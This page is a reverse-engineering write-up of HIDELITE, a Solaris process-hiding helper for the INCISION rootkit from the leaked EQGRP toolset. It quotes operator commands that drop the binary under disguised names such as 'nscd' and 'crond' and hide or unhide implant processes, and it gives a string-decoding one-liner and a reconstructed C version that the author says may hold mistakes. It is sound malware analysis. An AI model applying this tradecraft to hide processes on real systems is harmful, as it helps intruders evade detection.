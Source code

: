 [STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# DITTELIGHT / DITTLELITE / HIDELITE

This tool can be used to unhide processes that were hidden using the INCISION rootkit. A noteable use of this tool is to unhide processes such that Oracle databases can be queried from the (previously hidden) process. The tool can also hide the process again.

In [the Oracle opscript](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/etc/oracle/opscript):
```
#########################################################################
# This is required for unhiding our processes on an INCISION box.	#
# Oracle requires that it see our processes when we query the database. #
#########################################################################
-put /current/up/hidelite.solaris.sparc $TMPDIR/nscd
```

The [HIDELITE user tool](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/doc/user.tool.dittlelight_hidelite.COMMON) provides some usage examples:
```
-put /current/bin/hidelite.sparc crond

### run hidelite to unhide the callback window:
./crond -u -p NOPEN_CALLBACK_WINDOW_PID 

...

### To hide again
./crond -h -p NOPENPID
```

Hidelite needs to run in a window that is a direct child of PID 1. ([Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1181-L1182))


## Reverse Engineering HIDELITE

Since my SPARC assembly was non-existent before starting this reverse engineering quest, it was a fun and small binary to reverse. There might be some mistakes in the analysis and C code though. (Always check the disassembly yourself)

Interesting to note is that it uses the same kind of string obfuscation as [the PORK traffic](../implants/pork.md) over the wire does, only the value being multiplied with, is different (`0x1d`).

You can quickly dump the hidden strings used by HIDELITE using this one-liner:
```
$ cat hidelite.solaris | perl -nle 'print join "", map{ chr((ord()*29) & 0xff) } split //' | strings
S<T6
6YA<
`W @ZW 
jk (0k 
0 \#
jk (0k 
@n`t
8jk (0k 
/bin/sh
p:hu
%s invalid address
post: %s
ioctl error
exec failed: %s
post: %s
return code = %d
usage error
PS1=hidden: 
/proc/%05d
YYqv$
```

According to [the SICKLESTAR notes](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.sicklestar.COMMON#L1180) the HIDELITE binary should contain INCISION keys. I was unable to find anything that looks like it (3 random looking 32-bit integers) but it could be the 64 bytes that I called "dunno" in my C code (that's the only place it would fit).

(Warning: People have reported sudden loss of eyesight when looking at the code. Proceed with caution.)
```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>

#include<sys/ioctl.h>
#include<string.h>
#include<unistd.h>
#include<fcntl.h>

/* In the original code it's not array but just loose strings */
uint8_t encrypted_strings[][50] = {
	"\xbb\x4a\xbd\xc6\xbb\xcf\x88", /* /bin/sh */
	"\x30\x02\x88\x39", /* p:hu */
	"\xa9\xcf\xa0\xbd\xc6\x6e\x15\x5c\xbd\xb4\xa0\x15\xb4\xb4\x9a\xe9\xcf\xcf\x12", /* %s invalid address\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\xbd\xfb\x7f\x04\x5c\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* ioctl error\n */
	"\xe9\xd8\xe9\x7f\xa0\x1e\x15\xbd\x5c\xe9\xb4\x02\xa0\xa9\xcf\x12", /* exec failed: %s\n */
	"\x30\xfb\xcf\x04\x02\xa0\xa9\xcf\x12", /* post: %s\n */
	"\x9a\xe9\x04\x39\x9a\xc6\xa0\x7f\xfb\xb4\xe9\xa0\xa1\xa0\xa9\xb4\x12", /* return code = %d\n */
	"\x39\xcf\x15\x53\xe9\xa0\xe9\x9a\x9a\xfb\x9a\x12", /* usage error\n */
	"\x90\x2f\x25\xa1\x88\xbd\xb4\xb4\xe9\xc6\x02\xa0", /* PS1=hidden: */
	"\xbb\x30\x9a\xfb\x7f\xbb\xa9\xf0\xf9\xb4" /* /proc/%05d */
};

void decrypt_str(uint8_t* str, uint32_t key);
uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch);

int main(int argc, char** argv) {
	uint32_t bitmask, fp_m18h, unhide;
	uint32_t pid = bitmask = fp_m18h = unhide = 0;

	if(argc < 2) {
		decrypt_str(encrypted_strings[8], 0x1d);
		fprintf(stderr, encrypted_strings[8]);
		exit(1);
	}

	decrypt_str(encrypted_strings[1], 0x1d);
	int32_t c;
	while((c = getopt(argc, argv, encrypted_strings[1])) != -1) {
		switch(c) {
			case 'h':
				bitmask = bitmask | 0x40;
				break;
			case 'u':
				bitmask = bitmask | 0x80;
				unhide = 1;
				break;
			case 'p':
				pid = atoi(optarg);
				break;
			case 'r':
				bitmask = bitmask | 8;
				break;
		}
	}

	// 0x10c10
	bitmask = (bitmask & -3) | 4;
	uint32_t post_return_value = post(pid, bitmask, fp_m18h);
	if(post_return_value != 0) {
		if(post_return_value <= 0) { // 0x10c9c
			decrypt_str(encrypted_strings[4], 0x1d);
			fprintf(stderr, encrypted_strings[4]);
		} else { // 0x10c5c
			decrypt_str(encrypted_strings[3], 0x1d);
			fprintf(stdout, encrypted_strings[3], strerror(post_return_value));
		}
		exit(post_return_value);
	}
}

uint32_t post(uint32_t pid, uint32_t bitmask, uint32_t fp_4ch) {
	struct something {
		uint32_t i; // fp_m8ch; 
		uint32_t bitmask; // fp_m88h
		uint32_t pid; // fp_m84h
		uint32_t unknown; // fp_m80h
		uint32_t thirdarg; // fp_m7ch
		char buf[0x18]; // see bzero call
		char buf2[0x40]; // see bcopy
		uint32_t two; // fp_m20c
		uint32_t minus1; // fp_m1ch
		uint32_t* bitmaskagain; // fp_m18h
		uint32_t unknown2; 
		uint32_t fourty; // fp_m10h
		uint32_t fp_mch;
		
	};

	struct something huh;
	huh.i = 0;
	bzero(&huh.buf2, 0x54);
	const char dunno[0x40] = "\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xfe\xf8\xa0\xff\xfe\xfe\x70\xff\xfe\xfd\xd0\xff\xfe\xfe\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
	bcopy(dunno, &huh.buf2, 0x40); 
		// :> px 0x40 @ 0x21120
		// - offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
		// 0x00021120  0100 0000 0100 0000 0000 0000 0000 0000  ................
		// 0x00021130  0000 0000 0000 0000 0000 0000 0000 0000  ................
		// 0x00021140  fffe f8a0 fffe fe70 fffe fdd0 fffe fe70  .......p.......p
		// 0x00021150  0000 0000 0000 0000 0000 0000 0000 0000  ................

	huh.two = 2;
	bzero(&huh.bitmask, 0x28);
	huh.minus1 = -1;
	huh.fourty = 0x28;
	huh.bitmaskagain = &huh.bitmask; // Maybe a ptr, maybe the val, my SPARC is weak
	huh.bitmask = huh.bitmask | bitmask;
	huh.pid = pid;
	huh.thirdarg = fp_4ch;
	
	/* It doesn't seem like this is being saved? */
	huh.bitmask & 8;
	huh.bitmask & 0x40;
	huh.bitmask & 0x80;
	huh.bitmask & 0x20;
	huh.bitmask & 0x10;

	char procself[64];
	decrypt_str(encrypted_strings[10], 0x1d);
	sprintf(procself, encrypted_strings[10], getpid());
	int fd = open(procself, 0); /* fd = fp_m8h */
	if(fd == -1) {
		decrypt_str(encrypted_strings[6], 0x1d);
		fprintf(stdout, encrypted_strings[6], strerror(0x454)); // "post: %s" == 0x20c
		return -1;
	}

	return ioctl(fd, 0x1c | 0x1de, (void*) &huh); // second arg: 478
}

void decrypt_str(uint8_t* str, uint32_t key) {
	while(*str != 0) {
		*str = (*str * key) & 0xff;
		str++;
	}
}

```
